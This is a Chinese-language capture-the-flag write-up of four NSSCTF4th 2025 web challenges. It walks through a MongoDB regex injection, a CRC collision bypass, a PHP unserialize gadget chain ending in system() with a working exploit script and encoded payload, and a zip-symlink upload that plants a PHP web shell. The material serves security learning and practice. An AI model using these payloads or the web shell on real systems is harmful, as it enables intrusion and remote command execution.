










# NSSCTF4th 2025 Web Writeup




# `ez_signin` 

```
from flask import Flask, request, render_template, jsonify
from pymongo import MongoClient
import re

app = Flask(__name__)

client = MongoClient("mongodb://localhost:27017/")
db = client['aggie_bookstore']
books_collection = db['books']

def sanitize(input_str: str) -> str:
    return re.sub(r'[^a-zA-Z0-9\s]', '', input_str)

@app.route('/')
def index():
    return render_template('index.html', books=None)

@app.route('/search', methods=['GET', 'POST'])
def search():
    query = {"$and": []}
    books = []

    if request.method == 'GET':
        title = request.args.get('title', '').strip()
        author = request.args.get('author', '').strip()

        title_clean = sanitize(title)
        author_clean = sanitize(author)

        if title_clean:
            query["$and"].append({"title": {"$eq": title_clean}})  

        if author_clean:
            query["$and"].append({"author": {"$eq": author_clean}}) 

        if query["$and"]:
            books = list(books_collection.find(query))

        return render_template('index.html', books=books)

    elif request.method == 'POST':
        if request.content_type == 'application/json':
            try:
                data = request.get_json(force=True)

                title = data.get("title")
                author = data.get("author")
                
                if isinstance(title, str):
                    title = sanitize(title)
                    query["$and"].append({"title": title})
                elif isinstance(title, dict):
                    query["$and"].append({"title": title})

                if isinstance(author, str):
                    author = sanitize(author)
                    query["$and"].append({"author": author})
                elif isinstance(author, dict):
                    query["$and"].append({"author": author})

                if query["$and"]:
                    books = list(books_collection.find(query))
                    return jsonify([
                        {"title": b.get("title"), "author": b.get("author"), "description": b.get("description")} for b in books
                    ])

                return jsonify({"error": "Empty query"}), 400

            except Exception as e:
                return jsonify({"error": str(e)}), 500

        return jsonify({"error": "Unsupported Content-Type"}), 400
    
if __name__ == "__main__":
    app.run("0.0.0.0", 8000)
```
MongoDB，非常典型的 NOSQL 产品，再次之前没有 nosql 注入经验，借这个机会直接初步学习一下，这里主要学习 Python 操作 Mongodb
`sudo docker pull mongo:latest`

进入容器，切换 mongodb

放一些测试数据

了解一下操作符
```
$and：与（数组形式，省略时对象多键即隐式 AND）
$or：或
$nor：NOR（全部子表达式都不匹配才返回）
$not：对单个表达式取反（常用于和 $regex、比较运算符合用

$eq 等于
$ne 不等于（注意选择性差，容易全表扫）
$gt 大于
$gte 大于等于
$lt 小于
$lte 小于等于
$in 包含于（右侧数组）
$nin 不包含于（右侧数组）

$exists：字段是否存在（true/false）
$type：字段 BSON 类型匹配（支持别名/类型码，如 "string", 2）

$expr：在查询里用聚合表达式；可做字段间比较
$mod：整数取模匹配
$regex：正则匹配（配合 $options: 'i' 等）
$text：全文索引搜索（需要先建 text 索引）
$where：JS 表达式（高风险+低性能，生产禁用）

$all：数组包含全部给定元素（可与 $elemMatch 嵌套）
$elemMatch：数组中有至少一个元素同时满足多条件
$size：数组长度等于给定值（不能用索引）
```
写一个测试 demo
```
from pymongo import MongoClient

client = MongoClient("mongodb://localhost:27017/")  # 连接 mongodb
db = client['users']  #获取数据库
print(db)
books_collection = db['users']
print(books_collection)
book1 = list(books_collection.find({'username':'admin'}))
print(book1)
book2 = list(books_collection.find({"username":{"$regex": '.*'}}))
print(book2)
```
通过 $regex 正则匹配所有字符串， 取出所有数据，看到所有数据都出来了

回到题目，逻辑很简单，接收 JSON 字符串，取出 title 键的值，如果值类型为字典则不执行 sanitize() 正则替换操作，直接添加进 query 变量 $and 键值
```
query = {"$and": []}
books = []

def sanitize(input_str: str) -> str:
    return re.sub(r'[^a-zA-Z0-9\s]', '', input_str)

def search():
	...
		data = request.get_json(force=True)
		title = data.get("title")
		author = data.get("author")
		if isinstance(title, str):
			title = sanitize(title)
			query["$and"].append({"title": title})
		elif isinstance(title, dict):
			query["$and"].append({"title": title})
```
然后就进行查询处理，并将数据返回给前端，相当于 SQL 注入中没有做任何处理，直接能查集合所有数据
```
if query["$and"]:
	books = list(books_collection.find(query))
	return jsonify([
		{"title": b.get("title"), "author": b.get("author"), "description": b.get("description")} for b in books
	])
```
payload
```
Content-Type: application/json
{"title": {"$regex": ".*"}}
```


# `EzCRC`
源码
```
<?php
error_reporting(0);
ini_set('display_errors', 0);
highlight_file(__FILE__);


function compute_crc16($data) {
    $checksum = 0xFFFF;
    for ($i = 0; $i < strlen($data); $i++) {
        $checksum ^= ord($data[$i]);
        for ($j = 0; $j < 8; $j++) {
            if ($checksum & 1) {
                $checksum = (($checksum >> 1) ^ 0xA001);
            } else {
                $checksum >>= 1;
            }
        }
    }
    return $checksum;
}

function calculate_crc8($input) {
    static $crc8_table = [
        0x00, 0x07, 0x0E, 0x09, 0x1C, 0x1B, 0x12, 0x15,
        0x38, 0x3F, 0x36, 0x31, 0x24, 0x23, 0x2A, 0x2D,
        0x70, 0x77, 0x7E, 0x79, 0x6C, 0x6B, 0x62, 0x65,
        0x48, 0x4F, 0x46, 0x41, 0x54, 0x53, 0x5A, 0x5D,
        0xE0, 0xE7, 0xEE, 0xE9, 0xFC, 0xFB, 0xF2, 0xF5,
        0xD8, 0xDF, 0xD6, 0xD1, 0xC4, 0xC3, 0xCA, 0xCD,
        0x90, 0x97, 0x9E, 0x99, 0x8C, 0x8B, 0x82, 0x85,
        0xA8, 0xAF, 0xA6, 0xA1, 0xB4, 0xB3, 0xBA, 0xBD,
        0xC7, 0xC0, 0xC9, 0xCE, 0xDB, 0xDC, 0xD5, 0xD2,
        0xFF, 0xF8, 0xF1, 0xF6, 0xE3, 0xE4, 0xED, 0xEA,
        0xB7, 0xB0, 0xB9, 0xBE, 0xAB, 0xAC, 0xA5, 0xA2,
        0x8F, 0x88, 0x81, 0x86, 0x93, 0x94, 0x9D, 0x9A,
        0x27, 0x20, 0x29, 0x2E, 0x3B, 0x3C, 0x35, 0x32,
        0x1F, 0x18, 0x11, 0x16, 0x03, 0x04, 0x0D, 0x0A,
        0x57, 0x50, 0x59, 0x5E, 0x4B, 0x4C, 0x45, 0x42,
        0x6F, 0x68, 0x61, 0x66, 0x73, 0x74, 0x7D, 0x7A,
        0x89, 0x8E, 0x87, 0x80, 0x95, 0x92, 0x9B, 0x9C,
        0xB1, 0xB6, 0xBF, 0xB8, 0xAD, 0xAA, 0xA3, 0xA4,
        0xF9, 0xFE, 0xF7, 0xF0, 0xE5, 0xE2, 0xEB, 0xEC,
        0xC1, 0xC6, 0xCF, 0xC8, 0xDD, 0xDA, 0xD3, 0xD4,
        0x69, 0x6E, 0x67, 0x60, 0x75, 0x72, 0x7B, 0x7C,
        0x51, 0x56, 0x5F, 0x58, 0x4D, 0x4A, 0x43, 0x44,
        0x19, 0x1E, 0x17, 0x10, 0x05, 0x02, 0x0B, 0x0C,
        0x21, 0x26, 0x2F, 0x28, 0x3D, 0x3A, 0x33, 0x34,
        0x4E, 0x49, 0x40, 0x47, 0x52, 0x55, 0x5C, 0x5B,
        0x76, 0x71, 0x78, 0x7F, 0x6A, 0x6D, 0x64, 0x63,
        0x3E, 0x39, 0x30, 0x37, 0x22, 0x25, 0x2C, 0x2B,
        0x06, 0x01, 0x08, 0x0F, 0x1A, 0x1D, 0x14, 0x13,
        0xAE, 0xA9, 0xA0, 0xA7, 0xB2, 0xB5, 0xBC, 0xBB,
        0x96, 0x91, 0x98, 0x9F, 0x8A, 0x8D, 0x84, 0x83,
        0xDE, 0xD9, 0xD0, 0xD7, 0xC2, 0xC5, 0xCC, 0xCB,
        0xE6, 0xE1, 0xE8, 0xEF, 0xFA, 0xFD, 0xF4, 0xF3
    ];

    $bytes = unpack('C*', $input);
    $length = count($bytes);
    $crc = 0;
    for ($k = 1; $k <= $length; $k++) {
        $crc = $crc8_table[($crc ^ $bytes[$k]) & 0xff];
    }
    return $crc & 0xff;
}

$SECRET_PASS = "Enj0yNSSCTF4th!";
include "flag.php";

if (isset($_POST['pass']) && strlen($SECRET_PASS) == strlen($_POST['pass'])) {
    $correct_pass_crc16 = compute_crc16($SECRET_PASS);
    $correct_pass_crc8 = calculate_crc8($SECRET_PASS);

    $user_input = $_POST['pass'];
    $user_pass_crc16 = compute_crc16($user_input);
    $user_pass_crc8 = calculate_crc8($user_input);

    if ($SECRET_PASS === $user_input) {
        die("这样不行");
    }

    if ($correct_pass_crc16 !== $user_pass_crc16) {
        die("这样也不行");
    }

    if ($correct_pass_crc8 !== $user_pass_crc8) {
        die("这样还是不行吧");
    }

    $granted_access = true;

    if ($granted_access) {
        echo "都到这份上了,flag就给你了: $FLAG";
    } else {
        echo "不不不";
    }
} else {
    echo "再试试";
}

?>
```
传参值 CRC16 和 CRC8 与内置密钥 `Enj0yNSSCTF4th!`的 CRC16 和 CRC8 加密密文进行对比，传值不能相等，加密后密文必须相等

这题真不会考什么密码，但估计考的也不能难，AI 直接嗦了 :(不是

赛后复盘，这题我也没太多头绪

```
pass=Enj0yNSSCTF4%7B(%25
```


# `[mpga]filesystem`
源码
```
<?php

class ApplicationContext{
    public $contextName; 
    public function __construct(){
        $this->contextName = 'ApplicationContext';
    }

    public function __destruct(){
        $this->contextName = strtolower($this->contextName);
    }
}

class ContentProcessor{
    private $processedContent; 
    public $callbackFunction;   

    public function __construct(){
    
        $this->processedContent = new FunctionInvoker();
    }

    public function __get($key){
        
        if (property_exists($this, $key)) {
            if (is_object($this->$key) && is_string($this->callbackFunction)) {
                
                $this->$key->{$this->callbackFunction}($_POST['cmd']);
            }
        }
    }
}

class FileManager{
    public $targetFile; 
    public $responseData = 'default_response'; 

    public function __construct($targetFile = null){
        $this->targetFile = $targetFile;
    }

    public function filterPath(){ 
        
        if(preg_match('/^\/|php:|data|zip|\.\.\//i',$this->targetFile)){
            die('文件路径不符合规范');
        }
    }

    public function performWriteOperation($var){ 
        
        $targetObject = $this->targetFile; 
        $value = $targetObject->$var; 
    }

    public function getFileHash(){ 
        $this->filterPath(); 

        if (is_string($this->targetFile)) {
            if (file_exists($this->targetFile)) {
                $md5_hash = md5_file($this->targetFile);
                return "文件MD5哈希: " . htmlspecialchars($md5_hash);
            } else {
                die("文件未找到");
            }
        } else if (is_object($this->targetFile)) {
            try {
                
                $md5_hash = md5_file($this->targetFile);
                return "文件MD5哈希 (尝试): " . htmlspecialchars($md5_hash);
            } catch (TypeError $e) {
                
                
                return "无法计算MD5哈希，因为文件参数无效: " . htmlspecialchars($e->getMessage());
            }
        } else {
            die("文件未找到");
        }
    }

    public function __toString(){
        if (isset($_POST['method']) && method_exists($this, $_POST['method'])) {
            $method = $_POST['method'];
            $var = isset($_POST['var']) ? $_POST['var'] : null;
            $this->$method($var); 
        }
        return $this->responseData;
    }
}

class FunctionInvoker{
    public $functionName; 
    public $functionArguments; 
    public function __call($name, $arg){
        
        if (function_exists($name)) {
            $name($arg[0]); 
        }
    }
}

$action = isset($_GET['action']) ? $_GET['action'] : 'home';
$output = ''; 
$upload_dir = "upload/";

if (!is_dir($upload_dir)) {
    mkdir($upload_dir, 0777, true);
}

if ($action === 'upload_file') { 
    if(isset($_POST['submit'])){
        if (isset($_FILES['upload_file']) && $_FILES['upload_file']['error'] == UPLOAD_ERR_OK) {
            $allowed_extensions = ['txt', 'png', 'gif', 'jpg'];
            $file_info = pathinfo($_FILES['upload_file']['name']);
            $file_extension = strtolower(isset($file_info['extension']) ? $file_info['extension'] : '');

            if (!in_array($file_extension, $allowed_extensions)) {
                $output = "<p class='text-red-600'>不允许的文件类型。只允许 txt, png, gif, jpg。</p>";
            } else {
                
                $unique_filename = md5(time() . $_FILES['upload_file']['name']) . '.' . $file_extension;
                $upload_path = $upload_dir . $unique_filename;
                $temp_file = $_FILES['upload_file']['tmp_name'];

                if (move_uploaded_file($temp_file, $upload_path)) {
                    $output = "<p class='text-green-600'>文件上传成功！</p>";
                    $output .= "<p class='text-gray-700'>文件路径：<code class='bg-gray-200 p-1 rounded'>" . htmlspecialchars($upload_path) . "</code></p>";
                } else {
                    $output = "<p class='text-red-600'>上传失败！</p>";
                }
            }
        } else {
            $output = "<p class='text-red-600'>请选择一个文件上传。</p>";
        }
    }
}

if ($action === 'home' && isset($_POST['submit_md5'])) {
    $filename_param = isset($_POST['file_to_check']) ? $_POST['file_to_check'] : '';

    if (!empty($filename_param)) {
        $file_object = @unserialize($filename_param);
        if ($file_object === false || !($file_object instanceof FileManager)) {
            $file_object = new FileManager($filename_param);
        }
        $output = $file_object->getFileHash();
    } else {
        $output = "<p class='text-gray-600'>请输入文件路径进行MD5校验。</p>";
    }
}

?>
```
初看以为是 `phar`，提供的功能十分像，发现 md5 这块最上面定义了一个 `$file_object = @unserialize($filename_param);`直接反序列化且没有过滤，于是就在找反序列化链子，没去尝试 `phar`（也许也能打）
`ApplicationContext::__destruct()`反序列化进去 strtolower 预取接收 str，将 contextName 赋值为 FileManager 实例化对象，走到 `__toString()`
```
class ApplicationContext{
    public $contextName; 

    public function __construct(){
        $this->contextName = 'ApplicationContext';
    }

    public function __destruct(){
        $this->contextName = strtolower($this->contextName);
    }
}

class FileManager{
    public $targetFile; 
    public $responseData = 'default_response'; 

	public function performWriteOperation($var){ 
        $targetObject = $this->targetFile; 
        $value = $targetObject->$var; 
    }
    
    public function __toString(){
        if (isset($_POST['method']) && method_exists($this, $_POST['method'])) {
            $method = $_POST['method'];
            $var = isset($_POST['var']) ? $_POST['var'] : null;
            $this->$method($var); 
        }
        return $this->responseData;
    }
}
```
然后跳转本类 `$method =  performWriteOperation` 方法，`$targetObject`赋值 ContentProces 实例化对象，`$var` 赋值为`processedContent`属性，这是一个私有属性，触发 `__get()` 
```
class ContentProcessor{
    private $processedContent; 
    public $callbackFunction;   

    public function __construct(){
    
        $this->processedContent = new FunctionInvoker();
    }

    public function __get($key){
        
        if (property_exists($this, $key)) {
            if (is_object($this->$key) && is_string($this->callbackFunction)) {
                
                $this->$key->{$this->callbackFunction}($_POST['cmd']);
            }
        }
    }
}
```
`processedContent = new FunctionInvoker();` 赋值为 FunctionInvoker 实例化对象，然后让 callbackFunction、cmd 为需要的函数和参数即可，这里使用 system 进行 RCE

```
class FunctionInvoker{
    public $functionName; 
    public $functionArguments; 
    public function __call($name, $arg){
        
        if (function_exists($name)) {
            $name($arg[0]); 
        }
    }
}
```
利用链
```
ApplicationContext::__destruct()
	FileManager::__toString()
		FileManager::performWriteOperation()
			ContentProcessor::__get()
				FunctionInvoker::__call()
```
exp
```
<?php
class ApplicationContext{
    public $contextName;

    public function __construct($contextName){
        $this->contextName = $contextName;
    }
}
class ContentProcessor{
    private $processedContent;
    public $callbackFunction;

    public function __construct($callbackFunction){
        $this->callbackFunction = $callbackFunction;
        $this->processedContent = new FunctionInvoker();
    }
}
class FileManager{
    public $targetFile;
    public $responseData = 'default_response';

    public function __construct($targetFile){
        $this->targetFile = $targetFile;
    }
    public function performWriteOperation($var){

        $targetObject = $this->targetFile;
        $value = $targetObject->$var;
    }
}
class FunctionInvoker{
public function __call($name, $arg){

    if (function_exists($name)) {
        $name($arg[0]);
    }
}
}
$c = new ContentProcessor('system');
$f = new FileManager($c);
$d = new ApplicationContext($f);
$payload = urlencode(serialize($d));
print($payload);
?>
```
Payload
```
/?action=home
POST:
file_to_check=O%3A18%3A%22ApplicationContext%22%3A1%3A%7Bs%3A11%3A%22contextName%22%3BO%3A11%3A%22FileManager%22%3A2%3A%7Bs%3A10%3A%22targetFile%22%3BO%3A16%3A%22ContentProcessor%22%3A2%3A%7Bs%3A34%3A%22%00ContentProcessor%00processedContent%22%3BO%3A15%3A%22FunctionInvoker%22%3A0%3A%7B%7Ds%3A16%3A%22callbackFunction%22%3Bs%3A6%3A%22system%22%3B%7Ds%3A12%3A%22responseData%22%3Bs%3A16%3A%22default_response%22%3B%7D%7D
&submit_md5=&method=performWriteOperation&var=processedContent&cmd=cat /flag
```


# ez_upload
php＜= 7 . 4 . 21 development server 源码泄露漏洞，题目就是 index.php 写的上传功能，只是没回显，读取源码

解压操作，直接打软链接
```
ln -s /var/www/html link
zip -y -r 1.zip link

rm -f link; mkdir -p link

cat > link/shell.php <<'PHP'
<?php
if (isset($_GET['cmd'])) { system($_GET['cmd']); }
elseif (isset($_POST['a'])) { @eval($_POST['a']); }
elseif (isset($_GET['f'])) { @readfile($_GET['f']); }
PHP

zip -r 2.zip link
```
依次上传 `1.zip、2.zip`，访问 `shell.php RCE`



---

> Author: [L1nq](https://github.com/L1nq0)  
> URL: https://sw1mblu3.fun/posts/nssctf4th-2025-web-writeup/  

